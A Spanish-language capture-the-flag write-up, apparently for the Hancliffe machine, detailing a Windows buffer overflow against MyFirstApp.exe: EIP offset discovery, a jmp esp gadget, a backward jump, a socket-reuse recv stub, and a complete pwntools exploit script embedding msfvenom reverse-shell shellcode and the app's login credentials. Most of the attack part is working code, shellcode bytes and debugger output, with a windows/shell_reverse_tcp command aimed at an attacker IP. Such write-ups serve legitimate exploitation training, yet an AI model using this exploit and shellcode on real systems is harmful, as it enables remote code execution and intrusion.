- **Papeles dañados** = Otras variables sobrescritas
- **Enchufes** = Direcciones de retorno / código ejecutable

# Preparación para el BoF

Que solo usad Linux, mal por que ocuparemos Windows y xdbg x32 para realizar las pruebas del BoF, entonces comparte es .exe a tu maquina Windows, y verifica que puedas acceder a el:


También debes de desactivar el DEP (Disable Data Execution) de Windows, en el menú de **Opciones de rendimiento** lo encontraras y agregaras el ejecutable que estamos ocupando  


Ahora si con esto lo ejecutaremos dentro de xdbg x32, es **_importante recordar que cada que iniciemos el programa se cambiara el puerto_** 


# Sobrescribiendo el EIP

Al abrir el ejecutable MyFirstApp.exe este se quedara congelado por asi decirlo, debemos de dar varias veces en la fechita señalando hacia la izquierda, hasta que la aplicación nos muestre el puerto  por el cual se esta ejecutando el servicio(en la terminal CMD) 

También veremos el valor de EIP 
## **EIP = Extended Instruction Pointer**

### En pocas palabras:

**EIP es como un "marcador de página" que le dice al procesador qué línea de código ejecutar a continuación.**

## Analogía simple:

```
📖 Libro de instrucciones (programa)
👆 Dedo apuntando a la línea actual = EIP
```

### ¿Qué hace?

- **Siempre apunta** a la siguiente instrucción a ejecutar
- **Se actualiza automáticamente** después de cada instrucción
- **Controla el flujo** del programa

Con esto explicado lo intentaremos es que al acontecer el buffer overflow se sobrescriba el EIP, y si logramos sobrescribir el EIP el controlamos el programa:


Prueba rápida con el servicio ejecutándose en tu maquina Windows, conéctate desde tu maquina atacante y en la parte del código ingresa de igual manera varias "A" y cuando se corrompa el programa en xdbg aparece la leyenda de `Pausado`

Bingo

Podemos sobrescribir el EIP por ende podemos controlar el flujo del programa 


Recuerda reiniciar el programa cada vez que lo rompas con el Buffer OverFlow 


## Junk "A" & EIP

Y sabemos que tenemos el control del programa lo que tenemos que hacer es saber el numero exacto de A que necesitamos poner para llegar a el EIP y ejecutar alguna instrucción para automatizar las cosa usaremos un script de Python para enviar el pyload 


```python

#!/usr/bin/python3

from pwn import *
import sys, signal, time


def def_handler(sig,frame):
    print("\n Saliendo..........[!]\n")
    sys.exit(1)

#Ctrl C
signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) !=3:
    print("\n Error valores incompletos \n")
    print("\n Uso: python3 %s <IP> <port> \n " % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]
port = sys.argv[2]

print("Iniciando conexion [!]")
try:
    r = remote(ip, port)
    conexion_exitosa = True
except ConnectionRefusedError:
    print("Conexión rechazada. Verifica que el servicio esté corriendo.")
    sys.exit(1)
except TimeoutError:
    print("Tiempo de conexión agotado.")
    sys.exit(1)
except Exception as e:
    print(f"Error inesperado: {e}")
    sys.exit(1)

payload = b"A"*100 # ---> junk 

if conexion_exitosa:
    r.recvuntil(b"Username:")
    r.sendline(b"alfiansyah")
    r.recvuntil(b"Password:")
    r.sendline(b"K3r4j@@nM4j@pAh!T")
    r.recvuntil(b"FullName:")
    r.sendline(b"Vickry Alfiansyah")
    r.recvuntil(b"Input Your Code:")
    r.sendline(payload)   --> Payload 
```

Es simple por el momento, te pide la Ip y el puerto donde se esta ejecutando el programa de MyFirstApp.exe (que se esta ejecutando en tu maquina Windows ) y dentro del payload en formato de byte manda las "A" para acontecer el BoF(buffer OverFlow) 

ok con el esqueleto de script hecho ahora si encontremos el limite del buffer del input de Code, para ello usaremos una herramienta de Metasploit

```bash 
❯ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

lo que genera es una cadena de bytes aleatorios pero con un patrón, esta cadena la pondremos dentro de la variable payload

```python
payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
```

Y volvemos a lanzar el script:

EIP en este caso vale -> 41326341 
Buscando ese patrón con la herramienta de metasploit 

```bash
❯ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 41326341
[*] Exact match at offset 66
```


eso quiere decir que necesitamos poner 66 "A" para llenar el buffer 
![[74.png]]

Con esto modificaremos de nuevo la variable de payload con los siguientes valores para verificar que después de 66 "A" podemos  escribir en el EIP cuatro "B", esto es muy importante ya que si no lo hacemos, no sabremos donde poner la instrucción que nosotros queramos ejecutar despues del Junk de "A"´s

``` python
offset = 66
payload = b"A" * offset + b"B" * 4 + b"C"*100
```

ejecutamos de nuevo el script (recuerda reiniciar el programa en tu maquina windows)

Ojo que si es cierto, despues de 66 "A" llenamos el buffer y despues estan nuestra "B" (la B en hexadecimal es 42), pero tenemos un problema, pusimos 100 "C" y solo nos esta mostrando 10

![[75.png]]

Bien no tenemos espacio para inyectar nuestro (ojo al comunismo madre mía ) shellcode, y que se hace en este caso, irnos, buscar otra forma para elevar privilegios, no amigo mío el plan es el siguiente:

llenamos el buffer -> tenemos que hacer que EIP apunte al ESP (ESP tiene la 025DFF1C como dirección de memoria) y este apunte al inicio de nuestro buffer, pero no podemos poner la dirección de ESP directamente en el EIP necesitamos un héroe, necesitamos un jmp_esp   

## jmp esp -> ESP

Buscaremos un este comando cerca de las direcciones de memoria donde estamos 


Para buscar el jmp_esp ocuparemos la herramienta que esta en click_derecho -> Buscar en ->Todos los modulos -> comando }


y buscamos el jmp esp


y encontramos esta con la dirección 7190239F 


que esta cerca de donde nosotros estamos  


Pondremos un breakpoint en la dirección del jmp esp para que podamos ver que el programa esta haciendo lo que queremos con F2


Volvemos a modificar la parte de payload para agregar la dirección de memoria 

```python 
offset = 66
junk = b"A"*offset
jmp_esp = p32(0x7190239F)
payload = junk + jmp_esp
```

Y volvemos a ejecutar y si todo salió bien EIP valdrá la dirección del jmp esp y se quedara ahí por el breakpoint que pusimos 

EIP vale la direccion del jmp esp por ende apunto a esa instrucción 


si vamos al la siguiente instrucción EIP y ESP valdrán lo mismo 


Efectivamente funciono, pero esta no es la idea como tal, mas bien lo que queremos hacer es que apunte al inicio de nuestro buffer 


Existe una forma y es restando, y que debemos restar: 70, ¿Por qué 70?, recuerda que nuestro junk es de 66 bytes mas 4 bytes del EIP son 70 bytes 

para saber que instrucción poner ocuparemos la consola de nasm de metasploit 

```bash
❯ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp $-70
00000000  EBB8              jmp short 0xffffffba
```

Agregaremos esta instrucción en nuestro script de python  

```python 
offset = 66
junk = b"A"*offset
jmp_esp = p32(0x7190239F)
jmp_esp70 = b"\xEB\xB8"                     #jmp $-70
payload = junk + jmp_esp + jmp_esp70
```

y otra vez volvemos a ejecutar y ahora veremos esto:

Primero damos el salto el jmp_esp 

```
jmp_esp = p32(0x7190239F)
```


se queda ahí por el breackpoint, seguido de eso el EIP valdrá lo mismo que el ESP 


y por ultimo retrocederá 70 bytes , y quedara al inicio de nuestra cadena de "A"


Con esto funcionando podemos remplazar algunas "A" por direcciones ó instrucciones que nosotros queramos, recuerda que todo esto lo hacemos por que después de escribir en el EIP el ESP tiene un buffer de solo 10 bytes, y es espacio no es suficiente para inyectar nuestro shellcode, pero ahora con estos 66 bytes tampoco tenemos espacio suficiente para el shell code.

Aquí es donde podemos aplicar la técnica de socket reuse, si recordáis en ghidra en el programa principal teníamos la instrucción de recv el cual genera la conexión y manda los datos  


Entonces lo que tenemos que hacer es lo siguiente, apuntar a este socket, para que funcione este función requiere de unos parámetros:


[recv function (winsock.h) - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-recv)

son 4 parámetros que tenemos que pasarle para que funcione, pero antes debemos de encontrar el momento cuanto abre el socket 

Primero reiniciamos el ejecutable y también el script de Python y cuando llegue al breackpoint tendremos que buscar el recv socket 

Lo encontraremos arriba de nuestro breackpoint en la dirección de la memoria 71901D74, podremos un breackpoint el la siguiente dirección de memoria  


Volveremos a ejecutar el programa y a lanzar el script para llegar a este punto y veremos lo valores que se están asignando al recv 


## ***Socket Reuse (recv)***

Bien para reutilizar el socket tenemos que guardar esos 4 valores :
###  ***Guardando el descriptor del recv  Parámetro [in]***

Primero para poder reutilizar el socket debemos de guardar todos los datos que este socket utiliza, lo datos se almacenan en la pila el primero en guardar es el descriptor que lo podemos ver como el primer parametro


En la pila se encuentran los datos del recv, este primer argumento, es el descriptor del socket, lo tendremos que guardar en EAX para luego ocuparlo, imagina que vamos a ocupar EAX como una variable para almacenar el descriptor del recv 


Sabemos que la pila esta guardada el descriptor del socket con la dirección de 0270FF64 esta dirección la tenemos que recordarla muy bien

ahora bien realizamos el mismo proceso de reiniciar el programa y ejecutar el script hasta que lleguemos al inicio de nuestro buffer de "A"


En este punto el ESP esta en la cima de la pila y nuestro descriptor mas abajo, la tarea es guardar lo que vale ESP para poder realizar una operatoria que nos lleve a nuestro descriptor 
para ello podemos hacer una resta de la dirección del ESP con la dirección de nuestro descriptor del socket recv   

Puedes ocupar la consola de ***metasm*** para realizar las operaciones 


```
0270FF1C  000AB8EB  --> resta esto 
0270FF20  00B14000  "Vickry Alfiansyah\n"
0270FF24  00000050  
0270FF28  00000000  
0270FF2C  00000000  
0270FF30  00000000  
0270FF34  72334B00  
0270FF38  40406A34  
0270FF3C  6A344D6E  
0270FF40  68417040  
0270FF44  6C615421  
0270FF48  6E616966  
0270FF4C  68617973  
0270FF50  00000012  
0270FF54  00B14000  "Vickry Alfiansyah\n"
0270FF58  00B13F98  
0270FF5C  00000001  
0270FF60  0000001D  
0270FF64  00000348  ----->con esto 
0270FF68  00B13B20  
0270FF6C  00000000  
0270FF70  00000000  
```


```
0270FF64 - 0270FF1C = 00000048

0x48 = 72 bytes
```

en este caso nos quedaremos con el valor ***0x48***, este valor de 48 es lo que debemos de sumar desde el ESP a nuestro descriptor de recv 


```
0270FF1C  000AB8EB  --> Suma desde aqui (ESP)-------------------
0270FF20  00B14000  "Vickry Alfiansyah\n"                       |
0270FF24  00000050                                               
0270FF28  00000000                                              |
0270FF2C  00000000                                              
0270FF30  00000000                                              |
0270FF34  72334B00  
0270FF38  40406A34                                              |
0270FF3C  6A344D6E                                                       
0270FF40  68417040                                              |-------> 0x48
0270FF44  6C615421  
0270FF48  6E616966                                              |
0270FF4C  68617973  
0270FF50  00000012                                              |
0270FF54  00B14000  "Vickry Alfiansyah\n"
0270FF58  00B13F98                                              |
0270FF5C  00000001                                              
0270FF60  0000001D                                              |
0270FF64  00000348  ----->Para llegar aqui (descriptor recv)--- 
0270FF68  00B13B20  
0270FF6C  00000000  
0270FF70  00000000  
```

La instrucción para hacer esta operatoria seria la siguiente 


Bien con esto dicho toca ver si va bien :

reiniciamos el programa y nuestro pyload deberia de verse asi 

```python
recv = b""
recv += b"\x54"                 #   Push ESP
recv += b"\x58"                 #   Pop AEX
recv += b"\x83\xc0\x48"         #   add EAX, 0x48
recv += b"\x8b\x30"             #   mov esi, dword [eax]

offset = 66 - len(recv)
junk = recv + b"A"*offset
jmp_esp = p32(0x7190239F)
jmp_esp70 = b"\xEB\xB8"                     #jmp $-70
payload = junk + jmp_esp + jmp_esp70
```


Llegamos a nuestro jmp_esp

```python
jmp_esp = p32(0x7190239F)
jmp_esp70 = b"\xEB\xB8"                     #jmp $-70
```


Damos el salto para atrás de 70 bytes:

```python
jmp_esp70 = b"\xEB\xB8"                     #jmp $-70
```

Aquí es donde empezamos a mover los valores :


Primero ***push ESP*** para poner el valor de ESP al inicio de la pila:

```python
recv += b"\x54"                 #   Push ESP
```


seguido el el valor de ESP lo metemos en EAX:

```python
recv += b"\x58"                 #   Pop AEX
```


Sumamos 0x48 para llegar a la dirección de nuestro descriptor recv:

```python
recv += b"\x83\xc0\x48"         #   add EAX, 0x48
```

(recuerda que esta direccion a la que apuntamos en el descriptor de socket recv)


y movemos el valor de EAX a ESI 

```PYTHON
recv += b"\x8b\x30"             #   mov esi, dword [eax]
```


ya tenemos el primer parámetro que es el descriptor del socket recv

## ***Para evitar conflictos con el ESP***

Para evitarnos de problemas una instrucción que agregaremos será mover el ESP hacia arriba para que este no se empalme con el EIP 

```python
recv += b"\x83\xec\x64" 
```

esta instruccion es simple 


para que se posesione arriba


## ***Parámetro [Flag]*** & ***[Len]***

Daremos dos pájaros de un tiro 

```python
# [flag]
recv += b"\x31\xdb"             #   xor ebx, ebx
recv += b"\x53"                 #   push ebx

# [len]
recv += b"\x66\x81\xc3\x01\x04" #   add bx, 0x401
recv += b"\x53"                 #   puesh ebx
```

El parámetro de la Flag debemos de igualarlo a 0 pero si le hacemos un **add ebx 0x0** no dara como resultado un null byte y eso no queremos, bueno al menos que quieras hacerte la maldad tu mismo, pero con compuertas lógicas como xor podemos hacer que el resultado sea 0 


Después lo agregamos al inicio de la pila 


Para el parámetro de  **len** pues le asignaremos el buffer de 401 bytes lo cual esta genial para meter nuestro shellcode que queremos, 400 no por que tenemos un null byte 



y lo posicionamos al inicio de la pila de esta forma tenemos el descriptor del socket ESI, la **flag** en la segunda posición de la pila y **len** en primer lugar 


## ***LLamando á recv*** 

Ahora si procedemos a hacer la llamada al socket pero antes debemos de darle el formato que el quiere, o mas bien que necesita 

``` python
#Format
recv += b"\x54"                 #   push esp
recv += b"\x5b"                 #   pop ebx
recv += b"\x66\x83\xc3\x64"     #   add bx, 0x64
recv += b"\x53"                 #   push ebx
recv += b"\x56"                 #   push esi
recv += b"\xa1\xac\x82\x90\x71" #   mov eax, [0x719082ac]
```

Para la llamada necesitamos decirle la dirección de memoria en la cual se encuentra nuestro socket, lo podemos encontrar rápidamente con ghidra cuando se estaba haciendo la ingeniería inversa 

```python
recv += b"\xa1\xac\x82\x90\x71" #   mov eax, [0x719082ac]
```


Estas instrucciones hacen que la información o la estructura de esta pase de: 


a esto:


que es la misma que vemos en el socket cuando pusimos el breackpoint


si has llegado a este paso felicidades ya estamos cerca de terminar, antes de introducir nustro shell code agregaremos Noc para que el procesador pueda interpretarlo bien , es decir cambiaremos las "A" en Noc´s 

```python
offset = 66 - len(recv)
junk = recv + b"\x90"*offset     # Noc´s
jmp_esp = p32(0x7190239F)
```

Lo ultimo que necesitamos hacer es llamar a la función 

``` python
# call recv
recv += b"\xa1\xac\x82\x90\x71" #   mov eax, [0x719082ac]
recv += b"\xff\xd0"              #   call eax
```

Y por fin crearemos el shell code de nuestra reverse shell recuerda que estamos de manera local entonces realizaremos las pruebas 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.X.X LPORT=443 -b '\x00' EXITFUNC=thread -f py
```


# Posiblemente no funcione a la primera pero intenta varias veces 

quedando el script así: 

```python
#!/usr/bin/python3

from pwn import *
import sys, signal, time 


def def_handler(sig,frame):
    print("\n Saliendo..........[!]\n")
    sys.exit(1)

#Ctrl C
signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) !=3:
    print("\n Error valores incompletos \n")
    print("\n Uso: python3 %s <IP> <port> \n " % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]
port = sys.argv[2]

print("Iniciando conexion [!]")
try:
    r = remote(ip, port)
    conexion_exitosa = True
except ConnectionRefusedError:
    print("Conexión rechazada. Verifica que el servicio esta corriendo.")
    sys.exit(1)
except TimeoutError:
    print("Tiempo de conexión agotado.")
    sys.exit(1)
except Exception as e:
    print(f"Error inesperado: {e}")
    sys.exit(1)

#shelcode 

buf =  b""
buf += b"\xbe\x36\xc8\x96\x97\xdd\xc7\xd9\x74\x24\xf4\x5b"
buf += b"\x2b\xc9\xb1\x52\x31\x73\x12\x83\xeb\xfc\x03\x45"
buf += b"\xc6\x74\x62\x55\x3e\xfa\x8d\xa5\xbf\x9b\x04\x40"
buf += b"\x8e\x9b\x73\x01\xa1\x2b\xf7\x47\x4e\xc7\x55\x73"
buf += b"\xc5\xa5\x71\x74\x6e\x03\xa4\xbb\x6f\x38\x94\xda"
buf += b"\xf3\x43\xc9\x3c\xcd\x8b\x1c\x3d\x0a\xf1\xed\x6f"
buf += b"\xc3\x7d\x43\x9f\x60\xcb\x58\x14\x3a\xdd\xd8\xc9"
buf += b"\x8b\xdc\xc9\x5c\x87\x86\xc9\x5f\x44\xb3\x43\x47"
buf += b"\x89\xfe\x1a\xfc\x79\x74\x9d\xd4\xb3\x75\x32\x19"
buf += b"\x7c\x84\x4a\x5e\xbb\x77\x39\x96\xbf\x0a\x3a\x6d"
buf += b"\xbd\xd0\xcf\x75\x65\x92\x68\x51\x97\x77\xee\x12"
buf += b"\x9b\x3c\x64\x7c\xb8\xc3\xa9\xf7\xc4\x48\x4c\xd7"
buf += b"\x4c\x0a\x6b\xf3\x15\xc8\x12\xa2\xf3\xbf\x2b\xb4"
buf += b"\x5b\x1f\x8e\xbf\x76\x74\xa3\xe2\x1e\xb9\x8e\x1c"
buf += b"\xdf\xd5\x99\x6f\xed\x7a\x32\xe7\x5d\xf2\x9c\xf0"
buf += b"\xa2\x29\x58\x6e\x5d\xd2\x99\xa7\x9a\x86\xc9\xdf"
buf += b"\x0b\xa7\x81\x1f\xb3\x72\x05\x4f\x1b\x2d\xe6\x3f"
buf += b"\xdb\x9d\x8e\x55\xd4\xc2\xaf\x56\x3e\x6b\x45\xad"
buf += b"\xa9\x9e\x90\xbd\x2f\xf7\xa6\xbd\x2e\xbc\x2e\x5b"
buf += b"\x5a\xd2\x66\xf4\xf3\x4b\x23\x8e\x62\x93\xf9\xeb"
buf += b"\xa5\x1f\x0e\x0c\x6b\xe8\x7b\x1e\x1c\x18\x36\x7c"
buf += b"\x8b\x27\xec\xe8\x57\xb5\x6b\xe8\x1e\xa6\x23\xbf"
buf += b"\x77\x18\x3a\x55\x6a\x03\x94\x4b\x77\xd5\xdf\xcf"
buf += b"\xac\x26\xe1\xce\x21\x12\xc5\xc0\xff\x9b\x41\xb4"
buf += b"\xaf\xcd\x1f\x62\x16\xa4\xd1\xdc\xc0\x1b\xb8\x88"
buf += b"\x95\x57\x7b\xce\x99\xbd\x0d\x2e\x2b\x68\x48\x51"
buf += b"\x84\xfc\x5c\x2a\xf8\x9c\xa3\xe1\xb8\xbd\x41\x23"
buf += b"\xb5\x55\xdc\xa6\x74\x38\xdf\x1d\xba\x45\x5c\x97"
buf += b"\x43\xb2\x7c\xd2\x46\xfe\x3a\x0f\x3b\x6f\xaf\x2f"
buf += b"\xe8\x90\xfa"

recv = b""
# int recv(
#  [in]  SOCKET s,
#  [out] char   *buf,
#  [in]  int    len,
#  [in]  int    flags
#);
# 


#[i] s
recv += b"\x54"                 #   Push ESP
recv += b"\x58"                 #   Pop AEX
recv += b"\x83\xc0\x48"         #   add EAX, 0x48
recv += b"\x8b\x30"             #   mov esi, dword [eax]

# Move ESP
recv += b"\x83\xec\x64"         #   sub esp, 0x64

# [flag]
recv += b"\x31\xdb"             #   xor ebx, ebx
recv += b"\x53"                 #   push ebx

# [len]
recv += b"\x66\x81\xc3\x01\x04" #   add bx, 0x401
recv += b"\x53"                 #   puesh ebx

#Format
recv += b"\x54"                 #   push esp
recv += b"\x5b"                 #   pop ebx
recv += b"\x66\x83\xc3\x64"     #   add bx, 0x64
recv += b"\x53"                 #   push ebx
recv += b"\x56"                 #   push esi

# call recv
recv += b"\xa1\xac\x82\x90\x71" #   mov eax, [0x719082ac]
recv += b"\xff\xd0"              #   call eax

offset = 66 - len(recv)
junk = recv + b"\x90"*offset     # Noc´s
jmp_esp = p32(0x7190239F)
jmp_esp70 = b"\xEB\xB8"                     #jmp $-70
payload = junk + jmp_esp + jmp_esp70

if conexion_exitosa:
    r.recvuntil(b"Username:")
    r.sendline(b"alfiansyah")
    r.recvuntil(b"Password:")
    r.sendline(b"K3r4j@@nM4j@pAh!T")
    r.recvuntil(b"FullName:")
    r.sendline(b"Vickry Alfiansyah")
    r.recvuntil(b"Input Your Code:")
    r.sendline(payload)
    sleep(1)
    r.sendline(buf)
```

Si todo salió bien felicidades, cambia la ip al crear el shell code con msfvenom para ejecutarlo con la maquina de Hancliffe y felicidades 


Hancliffe has been Pwned!!!!!!!!!


#BoF #C #Windows #windows_Unified_Remote #Bypass_proxies #socket_reuse 